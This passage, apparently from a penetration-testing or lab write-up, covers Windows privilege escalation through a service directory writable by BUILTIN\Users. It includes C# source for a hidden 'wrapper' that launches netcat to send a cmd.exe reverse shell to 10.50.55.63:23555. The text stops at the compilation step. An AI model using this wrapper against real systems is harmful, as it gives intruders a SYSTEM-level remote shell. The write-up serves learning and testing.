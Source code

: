 - As you can see, the group BUILTIN\Users has FullControl over the C:\Program Files (x86)\System Explorer directory. Our current user is in this group, which I check with this command:

```csharp
whoami /groups
```

Results:

![Untitled](Personal%20P%20ec072/Untitled%2020.png)

- As you can see, I am a member of the group that has full access to the directory.

### 8.1 Coding a Wrapper

All we need is one very small "wrapper" program that activates the netcat binary that we already have on the target. To put it another way, we just need to write a small executable that executes a system command: activating netcat and sending us a reverse shell as the owner of the service (i.e. local system).

C# code:

```csharp
using System;
using System.Diagnostics;

namespace Wrapper{
    class Program{
        static void Main(){
            Process proc = new Process();
            ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-Incendium3.exe", "10.50.55.63 23555 -e cmd.exe");
            procInfo.CreateNoWindow = true;
            proc.StartInfo = procInfo;
            proc.Start();
        }
    }
}
```

Compiling the C# code to a executable is easy with mono:
